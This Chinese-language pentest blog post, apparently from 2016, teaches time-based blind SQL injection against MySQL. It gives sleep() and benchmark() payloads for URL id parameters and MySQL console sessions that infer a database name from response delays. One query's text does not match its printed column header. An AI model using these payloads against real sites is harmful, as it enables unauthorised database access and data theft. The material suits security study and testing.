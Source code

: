 ```yaml
---
draft: false
date: 2016-06-24 10:10:27
title: SQL 注入之基于时间的注入(MySQL)
description: 基于时间的 SQL 注入
categories:
  - Pentest
tags:
  - injection
---
```


### 0x00 特点
```
当页面存在注入，但是没有显示位且不管怎么测试返回页面都没有变化，此时可以使用基于时间的盲注进行注入。
其实只要存在SQL注入就可以使用基于时间的盲注，利用范围比较广泛，但是可能受到网络带宽等因素的影响。
```

### 0x01 利用方式
```
整型注入的话可以直接: ?id=if(1=1,sleep(2),1)
字符型的话需要闭合: ?id=2' and if(1=1,sleep(2),1) and '1
```

### 0x02 相关函数
* if(条件, 值1, 值2)  
当条件为真时返回值1，条件为假时返回值2

* sleep()  
sleep(2)睡眠两秒

* benchmark(count, expr)  
benchmark是用于测试函数性能的，它是将表达式expr执行count次，执行次数越多耗费时间越久

### 0x03 基于时间的注入payload
```
mysql> select if((select database()) like "rte%",sleep(2),666);
+---------------------------------------------------+
| if((select database()) like "rte%",sleep(2),666)  |
+---------------------------------------------------+
|                                                 0 |
+---------------------------------------------------+
1 row in set (2.00 sec)

mysql> select if((select database())="rteaaa",sleep(2),666);
+-----------------------------------------------+
| if((select database())="rtest1",sleep(2),666) |
+-----------------------------------------------+
|                                           666 |
+-----------------------------------------------+
1 row in set (0.00 sec)

mysql> select if((select database())="rtest",sleep(2),666);
+----------------------------------------------+
| if((select database())="rtest",sleep(2),666) |
+----------------------------------------------+
|                                            0 |
+----------------------------------------------+
1 row in set (2.00 sec)
```
```
mysql> select id,name,title from msg where id=if(1=1,benchmark(10000000,md5(11)),1);
Empty set (2.32 sec)

mysql> select id,name,title from msg where id=if(1=2,benchmark(10000000,md5(11)),1);
+----+-------+-------+
| id | name  | title |
+----+-------+-------+
|  1 | reber | first |
+----+-------+-------+
1 row in set (0.00 sec)
```

### 0x04 简单注入

1. 判断闭合字符(and 1=1／and 1=2)
![得到闭合字符](/img/post/sqli9-get-closed-character-1.png)
![得到闭合字符](/img/post/sqli9-get-closed-character-2.png)

2. 得到数据库名字
![得到数据库名字](/img/post/sqli9-get-database.png)
